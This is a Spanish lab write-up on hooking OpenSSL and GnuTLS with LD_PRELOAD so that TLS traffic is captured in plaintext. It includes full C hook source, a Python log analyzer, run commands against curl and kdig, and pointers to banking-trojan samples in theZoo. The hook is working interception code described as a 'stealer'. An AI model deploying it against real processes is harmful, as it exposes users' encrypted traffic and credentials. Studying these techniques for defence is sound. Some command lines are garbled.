Para ver el sistema funcionando íntegramente: La Técnica de Intercepción en Memoria + El Análisis Externo, seguimos este orden:
gcc -shared -fPIC -o ssl_hook.so ssl_hook.c -ldlpython3 ssl_analyzer.py.

LD_PRELOAD=./ssl_hook.so curl -s https://www.google.com.

 Vemos que empieza a mostrar el contenido que curl está procesando en memoria ANTES de cifrarlo:
Vemos que empieza a mostrar el contenido que curl está procesando en memoria ANTES de cifrarlo:
Se confirma el éxito de la Técnica 5 - Hooking a la librería OpenSSL como método de Interceptar y Descifrar Tráfico TLS a través de la exfiltración de datos. Esta técnica permite obtener el contenido íntegro en texto claro. La presencia de cabeceras HTTP/2 y código HTML en el log del analizador valida que la seguridad del protocolo TLS se ve comprometida si el atacante posee la capacidad de inyectar código en la RAM del sistema objetivo.
Para aplicar la técnica del Stealer, Hook en memoria, al cliente kdig, ya no necesitamos engañar a la red con certificados falsos ni usar el puerto 8080. Ahora interceptaremos la librería de funciones dentro del propio ordenador. Atacaremos la comunicación directamente mientras sale hacia el servidor real de Cloudflare.
Sabemos que con la herramienta kdig, obteniamos: ;; DEBUG: TLS session (TLS1.3)-(ECDHE-X25519)-(ECDSA-SECP256R1-SHA256)-(AES-256-GCM). Ese formato de nombrar la Cipher Suite es característico de GnuTLS, no de OpenSSL. La librería que hicimos anteriormente ssl_hook.c estaba diseñada para interceptar SSL_read y SSL_write (funciones de OpenSSL), pero kdig está utilizando gnutls_record_recv y gnutls_record_send.
Para solucionar esto y completar el laboratorio con el cliente kdig, debemos adaptar la técnica de API Spoofing a GnuTLS. Creamos un nueva librería: gnutls_hook.c
#define _GNU_SOURCE
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>
// Definición de tipos para las funciones originales de GnuTLS
typedef ssize_t (*gnutls_func)(void *session, void *data, size_t data_size);
void log_data(const char *prefix, const void *buf, size_t num) {
int fd = open("/tmp/ssl_intercept.log", O_WRONLY | O_APPEND | O_CREAT, 0644);
if (fd != -1) {
write(fd, prefix, 10);
write(fd, buf, num);
write(fd, "\n---\n", 5);
close(fd);
}
}
// Interceptación de envío (Equivalente a SSL_write)
ssize_t gnutls_record_send(void *session, const void *data, size_t data_size) {
static gnutls_func real_send = NULL;
if (!real_send) real_send = dlsym(RTLD_NEXT, "gnutls_record_send");
log_data("[SENT ] ", data, data_size);
return real_send(session, (void*)data, data_size);
}
// Interceptación de recepción (Equivalente a SSL_read)
ssize_t gnutls_record_recv(void *session, void *data, size_t data_size) {
static gnutls_func real_recv = NULL;
if (!real_recv) real_recv = dlsym(RTLD_NEXT, "gnutls_record_recv");
ssize_t result = real_recv(session, data, data_size);
if (result > 0) {
log_data("[RECV ] ", data, result);
}
return result;
}
Compilación de esta nueva librería: gcc -shared -fPIC -o gnutls_hook.so gnutls_hook.c -ldl.
Nuevo script de Python. Necesitamos que el script de Python convierta los datos a un formato Hexdump: ssl_analyzer_gnutls.py
import os
import time
import binascii
from datetime import datetime
LOG_PATH = "/tmp/ssl_intercept.log"
def hexdump(data):
# Función para mostrar hex y ascii al lado, como en Wireshark/mitmproxy
try:
hex_part = binascii.hexlify(data.encode('latin1', 'replace')).decode()
readable = "".join([c if 32 <= ord(c) <= 126 else "." for c in data])
return f"{hex_part[:40]}... | {readable[:30]}"
except:
return "[Error al procesar binario]"
def analyze_traffic():
print(f"[*] Analizador Forense de Memoria (DNS-over-TLS) iniciado...")
print(f"[*] Monitoreando: {LOG_PATH}\n" + "-"*70)
if not os.path.exists(LOG_PATH):
open(LOG_PATH, 'a').close()
try:
f = open(LOG_PATH, 'r', errors='replace')
f.seek(0, 2)
while True:
line = f.readline()
if not line:
time.sleep(0.1)
continue
timestamp = datetime.now().strftime("%H:%M:%S")
if "[SENT ]" in line:
direction = "\033[91m[SENT]\033[0m"
raw_data = line.replace("[SENT ] ", "").strip()
print(f"[{timestamp}] {direction} {hexdump(raw_data)}")
elif "[RECV ]" in line:
direction = "\033[92m[RECV]\033[0m"
raw_data = line.replace("[RECV ] ", "").strip()
print(f"[{timestamp}] {direction} {hexdump(raw_data)}")
except KeyboardInterrupt:
print("\n[*] Fin del análisis.")
if __name__ == "__main__":
analyze_traffic()
Ejecutamos el nuevo script de Python: python3 ssl_analyzer_gnutls.py
Ejecutamos kdig con el nuevo hook:
LD_PRELOAD=$PWD/gnutls_hook.so kdig -d @1.0.0.1 +tls +tls-host=one.one.one.one cloudflare.com
 donde:
donde:
Vemos la captura del tráfico descifrado en el script de python que muestra el tráfico DESCRIFRADO:
 donde:
donde:
Se confirma el éxito de la Técnica 5 en el cliente kdig mediante la evidencia de datos exfiltrados en texto claro
Ejemplos de familias de malware que, aunque técnicamente no descifran el protocolo TLS, en el sentido de romper el cifrado, sí utilizan técnicas de intercepción, como el hooking de APIs, para leer los datos en texto claro antes de que se cifren o después de que se descifren.
Es uno de los troyanos bancarios más famosos y está disponible en varias versiones dentro del repositorio.
Técnica: Utiliza form-grabbing e intercepción mediante Man-in-the-Browser - MitB.
Funcionamiento: Inyecta código en el navegador de la víctima para interceptar las funciones de red (como PR_Write de la librería NSS o las APIs de Wininet). De esta manera, el malware puede leer los datos de formularios bancarios justo antes de que el navegador los envíe a través del túnel TLS.
Ubicación en theZoo: malware/Binaries/ZeusBankingVersion_26Nov2013.
Este malware es un sucesor espiritual de otros troyanos bancarios y también se encuentra en theZoo. Dridex, también conocido como Cridex o Bugat.
Técnica: Se especializa en el hooking de APIs de Windows relacionadas con las comunicaciones de red.
Funcionamiento: Al igual que ZeuS, intercepta las funciones que manejan las peticiones HTTP/HTTPS para exfiltrar credenciales bancarias antes de que sean protegidas por la capa de transporte.
Ubicación en theZoo: Busca en la carpeta malware/Binaries/Dridex.
Un troyano bancario sofisticado que también utiliza técnicas de intercepción de tráfico.
Técnica: Utiliza componentes complejos para crear pilas TCP/IP ocultas y realizar intercepción de datos de sesión.
Funcionamiento: Es conocido por su capacidad de realizar capturas de datos directamente desde la memoria del proceso del navegador, evitando así tener que lidiar con el cifrado TLS en el cable.
Ubicación en MalwareBazaar: MalwareBazaar Carberp
Técnica: Dyre fue pionero en interceptar el tráfico HTTPS mediante el uso de una técnica de redirección local y hooking de navegadores para extraer datos de aplicaciones web seguras.
TrickBot tiene similitudes con Dyre.
Ubicación: https://github.com/ytisf/theZoo/tree/master/malware/Binaries/Dyre